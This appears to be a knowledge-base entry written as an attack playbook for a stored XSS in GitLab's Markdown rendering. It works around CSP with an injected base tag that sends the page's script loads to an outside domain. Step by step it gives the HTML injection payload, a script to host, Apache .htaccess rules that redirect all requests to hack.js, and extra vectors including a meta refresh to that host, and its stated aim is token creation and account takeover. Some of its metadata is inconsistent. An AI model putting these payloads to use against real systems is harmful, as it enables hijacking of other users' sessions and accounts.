

---
tags:
  - xss
  - csp-bypass
  - gitlab
  - markdown-injection
  - html-injection
type: attack_chain
tools:
  - '[[tools/Browser-DevTools]]'
  - '[[tools/Apache-Web-Server]]'
tactics:
  - '[[Initial Access]]'
  - '[[procedures/Trigger-and-Verify-XSS-Execution]]'
  - '[[Persistence]]'
commands: []
platforms:
  - Web
  - Cloud (GitLab.com)
complexity: medium
procedures:
  - '[[procedures/Inject-XSS-Payload-into-GitLab-Issue]]'
  - '[[procedures/Host-Malicious-Script-on-Attacker-Domain]]'
  - '[[procedures/Configure-Server-Redirects-for-Exploitation]]'
  - '[[procedures/Trigger-and-Verify-XSS-Execution]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploits a stored XSS vulnerability in GitLab's Markdown rendering to inject
  HTML and bypass CSP using a base tag, leading to arbitrary JavaScript
  execution and potential account takeover.
skill_level: intermediate
impact_level: high
id: 8a200aa1-f15f-4b9b-a6ff-2f83574c824e
created_at: '2025-12-11T03:47:56.323Z'
updated_at: '2025-12-11T03:47:56.323Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
  - '[[TA0003]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059.007]]'
---
# Stored XSS in GitLab Markdown with CSP Bypass via Base Tag

Multi-stage attack chain exploiting a stored XSS vulnerability in GitLab's Markdown rendering, allowing HTML injection via syntax_highlight_filter.rb. This bypasses CSP using a <base> tag to redirect relative script loads to an attacker-controlled domain, enabling arbitrary JavaScript execution, token creation, and potential account takeovers on gitlab.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-DevTools]]
- [[tools/Apache-Web-Server]]

### Target Environment

- Platform: Web, Cloud (GitLab.com)
- Required services/ports: GitLab API, standard web ports (443)
- Network access requirements: Access to gitlab.com and an attacker-controlled domain

### Initial Access Requirements

- Credential requirements: Valid GitLab user account
- Network position: Internet access
- Prior access needed: Ability to create issues in a project

## Detailed Attack Procedures

### Step 1: Payload Injection - [[procedures/Inject-XSS-Payload-into-GitLab-Issue]]

**Procedure**: [[procedures/Inject-XSS-Payload-into-GitLab-Issue]]

**Objective**: Store the XSS payload in a GitLab issue to exploit the Markdown rendering vulnerability.

**Expected Output**: The issue is created with the injected HTML payload.

**Success Indicators**:
- Issue saves successfully without errors
- Payload is visible in the issue description

**Instructions**:
Log in to GitLab.com and navigate to a project. Create a new issue and inject the payload using [[commands/gitlab-xss-payload-injection]]:

```html
<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre><base href=https://joaxcar.com><pre x=&#34;"><code></code></pre>
```

Save the issue to store the payload.

### Step 2: Host Malicious Script - [[procedures/Host-Malicious-Script-on-Attacker-Domain]]

**Procedure**: [[procedures/Host-Malicious-Script-on-Attacker-Domain]]

**Objective**: Set up a malicious JavaScript file on the attacker's domain to be loaded via the base tag redirect.

**Expected Output**: Malicious script is hosted and accessible.

**Success Indicators**:
- Script file is available at the expected path
- Test access to the script from a browser

**Instructions**:
Create a file on your domain matching the failed import path, containing [[commands/javascript-alert-domain]]:

```javascript
alert(document.domain)
```

Host it using [[tools/Apache-Web-Server]].

### Step 3: Configure Redirects - [[procedures/Configure-Server-Redirects-for-Exploitation]]

**Procedure**: [[procedures/Configure-Server-Redirects-for-Exploitation]]

**Objective**: Optionally configure server redirects to ensure all requests load the malicious script.

**Expected Output**: All paths on the domain redirect to the hack.js file.

**Success Indicators**:
- .htaccess rules applied successfully
- Test redirects work as expected

**Instructions**:
Add .htaccess configuration using [[commands/apache-htaccess-redirect]]:

```apache
RewriteEngine on
RewriteCond %{REQUEST_URI} !^/hack.js$
RewriteRule .* /hack.js [L,R=302]
```

### Step 4: Trigger Execution - [[procedures/Trigger-and-Verify-XSS-Execution]]

**Procedure**: [[procedures/Trigger-and-Verify-XSS-Execution]]

**Objective**: Reload the page to trigger the XSS and verify execution.

**Expected Output**: Alert popup showing 'gitlab.com'.

**Success Indicators**:
- Failed script imports redirect to attacker's domain
- Malicious JS executes successfully

**Instructions**:
Open [[tools/Browser-DevTools]] to inspect network requests. Reload the issue page to trigger the XSS. Use [[commands/gitlab-xss-test-vectors]] for additional testing if needed:

```html
<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre><script>alert(2)</script><iframe srcdoc='<script>alert(3)</script>'/><meta http-equiv=refresh content='5;https://joaxcar.com/hack.js'><pre x=&#34;"><code></code></pre>
```

## Attack Chain Summary

### Key Achievements

1. Successful storage of XSS payload in GitLab
2. CSP bypass via base tag redirection
3. Arbitrary JavaScript execution on gitlab.com

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[procedures/Trigger-and-Verify-XSS-Execution]]
- [[Persistence]]

*Last updated: 2023-10-01*
